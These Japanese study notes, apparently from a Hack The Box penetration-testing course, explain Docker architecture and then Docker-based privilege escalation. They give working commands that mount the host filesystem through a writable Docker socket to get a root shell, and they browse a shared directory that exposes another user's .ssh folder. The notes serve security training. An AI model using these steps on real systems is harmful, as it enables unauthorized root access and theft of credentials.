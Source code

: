 ## Docker
- コンテナを、オペレーティングシステムレベルで動作し、ファイルシステムとシステムリソースを共有する、ユーザー空間内の隔離された環境として使用する
- コンテナ化は、従来のサーバーや仮想マシンと比較して、消費するリソースが大幅に少ないという利点がある
- Dockerの中核となる特徴は、アプリケーションが**Dockerコンテナ**の中にカプセル化されること
- Dockerコンテナは、アプリケーションコードの実行に必要なすべてのもの（コード、ランタイムなど）を含む、軽量でスタンドアロンの実行可能なソフトウェアパッケージを表す

**Dockerアーキテクチャ**
- Dockerアーキテクチャの中核には、クライアント/サーバーモデルがある
- 主に以下の2つのコンポーネントがある
	- Dockerデーモン
		- コマンドを実行し、コンテナを管理する役割を担う
	- Dockerクライアント
		- コマンドの発行やDockerエコシステムとのやり取りを行うためのインターフェースとして機能する

**Dockerを利用した権限昇格**
### 列挙
- Dockerを介してroot権限を取得するには、ログインしているユーザーがdockerグループに属している必要がある

ユーザーがdockerグループに所属しているか確認する
```shell-session
id

> uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

dockerイメージ一覧
```sh
docker image ls
```

### Dockerソケットの書き込みが可能な場合
- 基本的に、これはrootまたはdockerグループのみが書き込み可能であるはず
- これらの2つのグループのいずれにも属していないユーザーなのに、Dockerソケットに書き込み可能な権限がまだある場合、権限を昇格させることができる

書き込み可能なDockerソケットを利用して権限昇格する例
```shell-session
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l
```


### Dockerの共有ディレクトリ
Dockerコンテナにアクセスし、ローカルで列挙すると、Dockerのファイルシステムに追加の（標準ではない）ディレクトリが見つかる場合がある

Dockerイメージの列挙、Dockerイメージの立ち上げ
```sh
htb-student@ubuntu:~$ docker image ls
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
ubuntu       latest    5a81c4b8502e   22 months ago   77.8MB
htb-student@ubuntu:~$ docker run -it --rm ubuntu:latest /bin/bash
```

Dockerコンテナ内の共有ディレクトリを確認する例
```sh
root@container:~$ cd /hostsystem/home/cry0l1t3
root@container:/hostsystem/home/cry0l1t3$ ls -l

> drwxr-x--- 10 cry0l1t3 cry0l1t3   4096 Jun 30 15:09 .ssh
```
